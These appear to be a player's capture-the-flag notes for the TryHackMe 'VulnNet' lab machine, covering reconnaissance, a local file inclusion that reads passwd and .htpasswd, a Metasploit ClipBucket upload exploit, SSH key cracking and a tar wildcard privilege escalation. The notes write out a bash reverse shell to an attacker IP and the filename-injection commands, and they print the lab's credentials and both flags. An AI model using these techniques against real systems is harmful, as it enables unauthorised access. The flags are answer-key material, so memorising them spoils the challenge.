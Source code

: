 # Vulnnet

### Nmap scan

cmd: ``` sudo nmap -sC -sV -oN nmap/initial 10.10.204.237 -vv ```

- 22
- 80 apache

- login page
	- no sqli 
	- no user enum


### Fuzzing

cmd: ``` gobuster dir -u http://10.10.204.237 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php,html,txt -t 80```

- /js
	- 2 strange scripts
	- both heavily obfuscated

	- script1 
		- t.p = "http://broadcast.vulnnet.thm", t(t.s = 0);
	- script 2
		-  n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0);

- /etc/hosts
	- 10.10.204.237 broadcast.vulnnet.thm vulnnet.thm

- broadcast.vulnnet.thm
	- needs creds - nothing to do


cmd: ```ffuf -u "http://vulnnet.thm/index.php?referer=FUZZ" -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -t 80 -fs 5829```

- Can include files - different size for entries

```bash
LICENSE.txt             [Status: 200, Size: 6938, Words: 1896, Lines: 167]
login.html              [Status: 200, Size: 8308, Words: 2321, Lines: 211]
index.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
```

### LFI
	
	- Relative path ../../../../../etc/passwd  -> does not work
  	- Absolute path /etc/passwd 			   -> works!
	- From passwd - 2 users

```bash
# root:x:0:0:root:/root:/bin/bash
# server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```
	
- Apache2 config (/etc/apache2/.htpasswd) 
	- developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls


### subdomain

- Using creds on broadcast.vulnnet.thm
	- clipbucket -> version 4.0
	- Entry on searchsploit does not seem to work
	- Metasploit works (exploit: multi/http/clipbucket_fileupload_exec)
		- set httpusername developers
		- set httppassword 9972761drmfsls
		- set vhost broadcast.vulnnet.thm


### Got in
	
	- It gets uploaded to /actions/CB_BEATS_UPLOAD_DIR ... maybe an authenticated fuzzing would find /actions (has directory listing enabled)
	- cmd: ```whoami && id```
	
	```bash
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	```

### Getting mysql creds
	
	- Check clipbucket github -> includes -> dbconnet.sample.php
	- On the machine: /var/www/html/includes/dbconnect.php
		- Database: VulnNet
		- Username: admin
		- Password: VulnNetAdminPass0990
	- Nothing interesting there

### Enumerating (Manual)
	
	- Found backup -> /var/backups/ssh-backup.tar.gz
		- -rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
		- extracts just an id_rsa file with a RSA key
		- needs password

### Enumerating (automated - linpeas)
	
	- USBcreator - vulnerable -> well, not really
	- Cronjob - */2   * * * *   root    /var/opt/backupsrv.sh
	

### Cracking private key's password
	
	- ssh2john id_rsa > hash.txt 
	- john --wordlist=rockyou.txt hash.txt
	- creds: id_rsa:oneTWO3gOyac


### Getting user

	- cmd: ```whoami && id```
	```bash
	server-management
	uid=1000(server-management) gid=1000(server-management) groups=1000(server-management)
	```
	- cmd: ```cat user.txt```
	- **Flag:** THM{907e420d979d8e2992f3d7e16bee1e8b}

### Enumerating (manual)
	- ~/Documents - 2 pdfs - will rename to remove spaces
		- Daily job Report Format.pdf 
		- Employee Search Progress Report .pdf
	- Unusual process
		- /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant  # why does it need wi-fi?!?!

### Exploiting
	- /var/opt/backupserv.sh tars with wildcard in /home/server-management/Documents
	- commands to exploit:
		1. cd ~/Documents
		2. touch -- --checkpoint=1
		3. echo '/bin/bash -c "bash -i >& /dev/tcp/10.9.128.84/1414 0>&1"' > waza.sh
		4. touch -- "--checkpoint-action=exec=sh waza.sh"

### Done
	- cmd: ```cat /root/root.txt```
	- **Flag:** THM{220b671dd8adc301b34c2738ee8295ba}



